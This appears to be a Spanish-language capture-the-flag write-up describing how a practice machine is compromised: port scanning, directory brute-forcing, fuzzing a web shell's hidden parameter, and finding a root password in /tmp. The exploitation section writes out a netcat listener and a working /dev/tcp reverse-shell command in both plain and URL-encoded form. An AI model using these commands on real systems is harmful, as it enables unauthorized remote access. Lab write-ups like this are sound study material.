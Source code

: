 ## Reconocimiento
---
La página nos da la siguiente información:

Realizamos un [[nmap]] básico de reconocimiento de todos los puertos abiertos de la máquina
![[Pasted image 20240710003455.png]]

Ahora realizamos un [[nmap]] para conocer la versión y cualquier script que tiene el puerto 80 abierto que tiene la [[IP]].
![[Pasted image 20240710003517.png]]


Vemos que no hay nada extraño dentro del puerto y lo que se procede a realizar es una inspección de la web.

No nos muestra nada valioso, procedemos a buscar directorios con [[gobuster]].
![[Pasted image 20240710003547.png]]

Verificamos dos archivos importantes "shell.php" y "warning.html". Primero revisaremos warning.html para después verificar la otra respectivamente.

La web nos muestra el siguiente label que nos dice que existe un parámetro que es específico que se ha utilizado para el desarrollo de la webshell (/shell.php).
![[Pasted image 20240710003614.png]]

Con la afirmación anterior estamos asumiendo que se está utilizando la siguiente estructura para la [[webshell]].
![[Pasted image 20240710003648.png]]

Como podemos ver esta pide un parámetro en el comando y es el que no recuerda entonces lo que procederemos a realizar es un fuzzing a la web con [[ffuf]].

Cuando corremos el fuzzing al inicio vemos que todos los estados de todas las peticiones son de error 500 (lo cual **indica que el servidor ha encontrado una condición inesperada que le impidió cumplir con la solicitud**) entonces en el comando [[ffuf]] agregaremos el parámetro -fc 500 para filtrar los estados mencionados.
![[Pasted image 20240710003721.png]]

Ahora que ya contamos con el parámetro necesitamos obtener una reverseshell entonces realizaremos lo siguiente:

## Explotación
---
Nos pondremos en escucha con `nc -lvnp 9001`

Luego, necesitamos una revershell que nos funcione. En este caso utilizaré la siguiente ```sh -i >& /dev/tcp/192.168.0.17/9001 0>&1```. Corremos y vemos que no está interpretando la revershell. La encodeamos en formato URL y nos sale lo siguiente `sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.17%2F9001%200%3E%261`. Nos sigue sin funcionar entonces probamos poniendo todo entre comillas y agregarle un `bash -c` al incio del comando. Todo unido nos daría lo siguiente `bash -c "sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.17%2F9001%200%3E%261"`. Obtenemos la [[reverse shell]]!!
![[Pasted image 20240710003818.png]]

Una vez con la shell generamos una [[Interactive Shell]].

## Escalada de privilegios
---
Tuvimos una pista al inicio de la web entonces entramos a /tmp y vemos que existe un txt con la contraseña root.
![[Pasted image 20240710003846.png]]

**Y YA SOMOS ROOT 😄 **




